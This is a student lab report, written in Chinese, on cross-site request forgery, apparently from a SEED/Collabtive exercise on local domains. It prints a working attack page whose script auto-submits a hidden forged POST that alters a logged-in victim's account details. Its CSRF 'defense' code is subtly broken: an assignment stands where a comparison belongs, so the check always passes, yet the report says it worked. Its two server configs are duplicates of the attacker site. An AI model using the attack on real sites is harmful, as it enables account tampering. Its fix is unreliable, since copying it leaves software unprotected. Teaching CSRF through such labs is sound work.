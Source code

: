 #信息安全实验
_Dong 2015210938_

_2016.04.23_

##CSRF:跨站请求伪造攻击
###攻击简介
在网络环境中，用户使用单个浏览器浏览可信任网页，攻击者利用恶意网站以受害用户的身份向可信任网站发起恶意请求。
###实验原理
在用户使用账号密码登陆到可信任站点后，受信任站点会在web浏览器存储cookie，并且在接下来的操作中不需要进行身份验证。这样恶意网站就可以使用脚本通过浏览器提交恶意请求到受信任站点，因为之前已经进行过了身份验证，受信任站点接受恶意请求操作。
###实验步骤
####配置网站
首先启动apache2和mysql_safe，让本地服务器启动起来。

	sudo service apache2 start
	sudo mysqld_safe

并且配置DNS域名解析，将模拟域名都解析到本地，添加一下内容到`/etc/hosts`中

	127.0.0.1	www.heyheyattacker.com
	127.0.0.1	www.heyheynormal.com

并且在`/etc/apache2/conf.d/lab1.conf`和`/etc/apache2/conf.d/lab2.conf`中分别配置网站

	<VirtualHost *:80>
		ServerName http://www.heyheyattacker.com
		DocumentRoot /var/www/CSRF/Attacker/
	</VirtualHost>


	<VirtualHost *:80>
		ServerName http://www.heyheyattacker.com
		DocumentRoot /var/www/CSRF/Attacker/
	</VirtualHost>
####**攻击**
在攻击者的服务器里制作个攻击网页。其中包含提交恶意申请的javascript脚本。
将以下内容的作为文件`index.html`保存在`/var/www/CSRF/Attacker`中：
	
	<html><body><h1>
	This page forges an HTTP POST request.
	</h1>
	<script>
	function post(url,fields)
	{
	//create a <formelement.
	var p = document.createElement('form');
	//construct the form
	p.action = url;
	p.innerHTML = fields;
	p.target = '_self';
	p.method = 'post';
	//append the form to the current page.
	document.body.appendChild(p);
	//submit the form
	p.submit();
	}
	function csrf_hack()
	{
	var fields;
	// The following are form entries that need to be filled out
	// by attackers. The entries are made hidden, so the victim
	// won't be able to see them.
	fields += "<input type='hidden' name='name' value='peter'>"; //修改用户名
	fields += "<input type='hidden' name='userfile' value=''>";  
	fields += "<input type='hidden' name='company' value='seed'>";  //修改公司名
	post('http://www.heyheynormal.com/manageuser.php?action=edit',fields);
	}
	// invoke csrf_hack() after the page is loaded.
	window.onload = function() { csrf_hack(); }
	</script>
	</body></html>

其中`csrf_hack()`函数中的：

	fields += "<input type='hidden' name='name' value='peter'>"; //修改用户名
	fields += "<input type='hidden' name='userfile' value=''>";  
	fields += "<input type='hidden' name='company' value='seed'>";  //修改公司名
	post('http://www.heyheynormal.com/manageuser.php?action=edit',fields);

即为提交恶意请求的关键。

实验结果：在用户登录之后，访问`www.heyheyattacker.com`。用户的账号信息被更改，用户名被更改为`peter`，公司改为`seed`。

在打开`www.heyheyattacker.com`之后，用户的信息便被修改。
####**防御**
可以通过添加伪随机数的方法来防御跨站攻击。

实验中通过将document.cookie提交给要访问的可信任站点，并在之后的操作中可信任站点都对这个值进行验证，如果攻击者不能窃取可信任网站的cookie则在提交恶意请求时，不能通过可信任站点的有效验证，则攻击失效。

在可信任网页`/var/www/CSRF/Collabtive/templates/standard/edituserform.tpl`提交POST时提交一个隐藏的input，值为`document.cookie`。

而后可信任站点在接受到请求后在`manageuser.php`中对值进行验证

	...
	$sid = getArrayVal($_POST, "sid");
	...
	if($_COOKIE["PHPSESSID"]=$sid)
	...

实验结果：再次访问`www.heyheyattacker.com`并不能对用户信息进行更改。

###实验思考
CSRF攻击利用的是，用户在进行登录验证之后，和可信任站点交互不会再进行相互认证这个漏洞。因此只要想法在用户登录之后能有信息似的用户和可信任站点之间能够相互验证，并且在攻击者不能获得这份信息的前提下，就能有效避免这类攻击，就像这里的cookie信息。


----------
实验来自`实验楼`


